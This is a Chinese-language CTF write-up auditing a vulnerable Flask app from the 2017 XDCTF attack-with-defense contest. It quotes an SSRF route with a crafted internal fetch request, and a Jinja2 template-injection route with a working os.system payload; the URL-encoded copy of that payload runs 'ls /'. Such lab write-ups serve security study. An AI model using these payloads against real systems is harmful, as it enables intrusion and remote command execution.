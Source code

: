 ## 环境编译
```
docker-compose build
docker-compose up -d
```
该题是2017年XDCTF对抗赛的第一题

## 漏洞一

### SSRF漏洞
在app目录下
排除了flask的模版和静态文件等杂项，路由主要集中在auth和main文件中，先看auth
在app目录下的auth文件夹中,先看一下他的初始化文件__init__.py
![](luffy1.png)
可以看到,应用使用了蓝厂函数，url前缀是auth，然后审查views.py,在众多的路由中，最有问题的是

```
@auth.route('/getimage/<url>')
def getimage(url):
    url = base64.b64decode(url)
    img = requests.get(url)
    return img.content
```

这很显然是一个ssrf漏洞，然后我们可以构造请求

```
http://127.0.0.1:8001/auth/getimage/aHR0cDovLzEwLjAuMC4yMTEvZmxhZy50eHQ=
```

![](luffy2.png)


#### SSTI 模版注入漏洞
在auth的开头，直接调用了

```
from jinja2 import Template
```

然后在145行一个路由直接调用了该函数

```
   145	@auth.route('/test', methods=['GET', 'POST'])
   146	def test():
   147	    if request.method == 'POST':
   148	        if valid_login(request.form['username'], request.form['password']):
   149	            f = open('/tmp/' + request.form['username'], 'w+')
   150	            f.write(request.form['x'])
   151	            f.close()
   152	            f = open('/tmp/' + request.form['username'], 'r')
   153	            txt = f.read()
   154	            template = Template(txt)
   155	            return template.render()
   156	    else:
   157	        flash('just a test')
   158	        return redirect(url_for('auth.login'))
   159
   160
   161	def valid_login(username, password):
   162	    if username == base64.b64decode(password):
   163	        return True
   164	    else:
   165	        return False
```

由于模版内容是可以被控制的，导致了SSTI的漏洞

将payload

```
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
{{c.__init__.func_globals['linecache'].__dict__['os'].system('touch /1.txt') }}
{% endif %}
{% endfor %}
```

编码之后
```
%7b%25%20%66%6f%72%20%63%20%69%6e%20%5b%5d%2e%5f%5f%63%6c%61%73%73%5f%5f%2e%5f%5f%62%61%73%65%5f%5f%2e%5f%5f%73%75%62%63%6c%61%73%73%65%73%5f%5f%28%29%20%25%7d%0a%7b%25%20%69%66%20%63%2e%5f%5f%6e%61%6d%65%5f%5f%20%3d%3d%20%27%63%61%74%63%68%5f%77%61%72%6e%69%6e%67%73%27%20%25%7d%0a%7b%7b%63%2e%5f%5f%69%6e%69%74%5f%5f%2e%66%75%6e%63%5f%67%6c%6f%62%61%6c%73%5b%27%6c%69%6e%65%63%61%63%68%65%27%5d%2e%5f%5f%64%69%63%74%5f%5f%5b%27%6f%73%27%5d%2e%73%79%73%74%65%6d%28%27%6c%73%20%2f%27%29%20%7d%7d%0a%7b%25%20%65%6e%64%69%66%20%25%7d%0a%7b%25%20%65%6e%64%66%6f%72%20%25%7d
```

![](luffy4.png)

### ssti漏洞2

[git源码地址](https://github.com/WangYihang/Attack-With-Defense-Challenges)

[漏洞详细介绍](http://skysec.top/2018/04/15/Long-Ago-AWD-Flasky/)

[模版注入的payload](https://www.xmsec.cc/ssti-and-bypass-sandbox-in-jinja2/)

[模版注入payload2](https://kevien.github.io/2018/01/16/%E4%BB%8E%E4%B8%80%E9%81%93pentesterlab%E7%9A%84%E9%A2%98%E7%9B%AE%E8%AF%B4%E8%B5%B7/)


